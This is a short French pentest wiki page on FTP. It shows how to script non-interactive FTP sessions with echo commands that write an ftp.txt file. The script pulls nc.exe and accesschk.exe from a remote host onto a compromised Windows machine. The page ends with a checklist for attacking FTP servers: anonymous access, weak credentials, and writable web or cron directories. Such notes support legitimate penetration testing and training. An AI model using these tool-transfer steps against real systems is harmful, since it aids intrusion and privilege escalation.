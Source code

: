 ```yaml
---
title: FTP
permalink: /FTP/
---
```


# FTP

FTP non interactif
------------------

Il est possible d'utiliser FTP dans un shell non interactif en créant un fichier contenant les instructios a executer. Un exemple de fichier est le suivant:

``` bash
open 192.168.30.229
USER user
12345
bin
GET nc.exe
bye
```

Il est également possible de copier/coller les commandes suivantes pour créer ce fichier:

``` bash
echo open 192.168.30.229> ftp.txt
echo USER user>> ftp.txt
echo 12345>> ftp.txt
echo bin>> ftp.txt
echo GET accesschk.exe>> ftp.txt
echo bye>> ftp.txt
```

Enfin on execute les commandes contenues dans le fichier ftp.txt:

``` bash
ftp -v -n -s:ftp.txt
```

Exploitation
------------

Voici une liste d'éléments à vérifier face à un FTP

-   Récupérer la bannière du serveur FTP (avec [nmap](/nmap "wikilink")). Quelle est la version ? Est elle vulnérable ?
-   Peut on se logger en anonymous ? Avec quels droits ?
-   Peut on trouver un compte avec des identifiants faibles ?
-   Quels fichiers peut on trouver ?
-   Droits d'écriture ?
-   Est-il possible d'écrire dans un dossier lié à un répertoire web ?
-   Est-il possible d'écrire dans un dossier où des fichiers sont exécutés ? (ex: fichiers téléchargés par d'autres utilisateurs, scripts exécutés par un job cron, etc.)

[Category:Protocoles](/Category:Protocoles "wikilink")
